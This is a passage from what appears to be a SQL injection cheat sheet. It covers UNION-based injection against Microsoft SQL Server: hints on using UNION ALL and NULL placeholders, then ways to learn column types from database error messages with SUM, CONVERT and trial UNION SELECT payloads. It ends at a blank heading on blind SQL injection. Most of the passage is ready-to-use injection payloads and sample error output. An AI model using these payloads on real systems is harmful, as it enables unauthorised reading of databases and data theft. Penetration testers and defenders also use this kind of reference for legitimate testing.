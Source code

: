 So by that we can detect the number of columns.

#### Hints

1. Always use UNION with ALL because of image similar non-distinct field types. By default union tries to get records with distinct.

2. To get rid of unrequired records from left table use -1 or any not exist record search in the beginning of query (if injection is in WHERE). This can be critical if you are only getting one result at a time.

3. Use NULL in UNION injections for most data type instead of trying to guess string, date, integer etc. * Be careful in Blind situtaions may you can understand error is coming from DB or application itself. Because languages like ASP.NET generally throws errors while trying to use NULL values (because normally developers are not expecting to see NULL in a username field).

#### Finding Column Type

```ex
' union select sum(columntofind) from users-- (S)
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a varchar data type as an argument.
```

If you are not getting an error it means column is numeric.

Also you can use CAST() or CONVERT()

```ex
SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--
```

Other

```other
11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-    - No Error - Syntax is right. MS SQL Server Used. Proceeding.
11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-       - No Error – First column is an integer.
11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --          - Error!   – Second column is not an integer.
11223344) UNION SELECT 1,'2',NULL,NULL WHERE 1=2 –-        - No Error – Second column is a string.
11223344) UNION SELECT 1,'2',3,NULL WHERE 1=2 –-           - Error!   – Third column is not an integer. ...
```

Other2

```other2
Microsoft OLE DB Provider for SQL Server error '80040e07'
Explicit conversion from data type int to image is not allowed.
```

We'll get convert() errors before union target errors ! So start with convert() then union

#### Inferential SQLi (Blind SQLi)

About Blind SQL Injections
